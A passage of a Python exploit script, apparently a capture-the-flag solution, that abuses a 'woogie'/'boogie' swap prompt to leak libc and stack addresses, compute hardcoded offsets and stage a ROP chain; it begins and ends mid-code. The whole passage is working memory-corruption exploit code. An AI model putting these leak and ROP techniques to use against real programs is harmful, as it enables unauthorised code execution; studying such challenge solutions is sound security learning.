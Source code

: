 ```python  
 if base is None:  
   base = BASE  
 diff = a - base  
 assert diff % 8 == 0, "unaligned diff"  
 return diff // 8

def woogie_boogie(a, b):  
 sla("woogie: ", a)  
 sla("boogie: ", b)

def leaker():  
 woogie_boogie(0, 0)  
 return u64(rl()[:-1], endian='big')

t = get_target()

# leak libc  
BASE = 0x7fffffffed10  
START_REF = base_diff(0x7fffffffede8)  
ROP = base_diff(0x7fffffffed38)

woogie_boogie(0, START_REF)  
woogie_boogie(0, ROP)  
leak = leaker()  
LIBC = leak - 0x24083  
if not args.REMOTE:  
 libc.address = LIBC  
lhex(LIBC, "libc: ")

# leak stack  
STACK_LEAK = base_diff(0x7fffffffec68, 0x7fffffffec30)

woogie_boogie(START_REF, ROP)  
woogie_boogie(0, STACK_LEAK)  
leak = leaker()  
STACK = leak  
lhex(STACK, "stack: ") # 0x7fffffffed48

# allocate (c 8)  
PAD = 0xe0  
BASE = STACK - 0x1f8

linfo("allocate")  
ALLOCS = 7  
for i in range(ALLOCS):  
 print(f'{i}/{ALLOCS}', end='\r')  
 woogie_boogie(START_REF, ROP)  
 woogie_boogie(0, 0)  
 BASE -= PAD

# important offsets  
BASE = 0x7fffffffe530

SWAP_ROP = base_diff(0x7fffffffe518)  
A_STACK = base_diff(0x7fffffffe508)  
B_STACK = base_diff(0x7fffffffe500)  
WOOGIE_STACK = base_diff(0x7fffffffe538)  
BOOGIE_STACK = base_diff(0x7fffffffe540)

def create_char(char):  
 assert char < 0x100, "char to large"  
 woogie_boogie(char, WOOGIE_STACK)  
 woogie_boogie(0, char)
```